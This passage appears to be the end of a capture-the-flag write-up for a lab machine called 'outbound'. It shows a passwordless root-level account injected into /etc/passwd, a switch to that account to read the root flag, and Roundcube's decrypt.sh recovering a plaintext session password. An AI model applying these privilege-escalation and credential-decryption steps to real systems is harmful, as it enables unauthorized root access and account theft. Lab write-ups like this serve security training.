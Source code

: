 ```sh
mel:x:1000:1000:,,,:/home/mel:/bin/bash
tyler:x:1001:1001:,,,:/home/tyler:/bin/bash
jacob:x:1002:1002:,,,:/home/jacob:/bin/bash
tokugero::0:0:tokugero:/root:/bin/bash
# And just shimmy over!
jacob@outbound:/var/log/below$ su tokugero
root@outbound:/var/log/below# whoami
root
root@outbound:/var/log/below# cd /root/
root@outbound:~# cat root.txt
447233d69b2cc88c5cf7fc77444c87c4
```

## Bonus Detail

Roundcube has a handy decrypt.sh that can decrypt those session passwords, no need to manually 3des decrypt:
```sh
root@mail:/var/www/html/roundcube/bin# ./decrypt.sh L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
595mO8DmwGeD
```
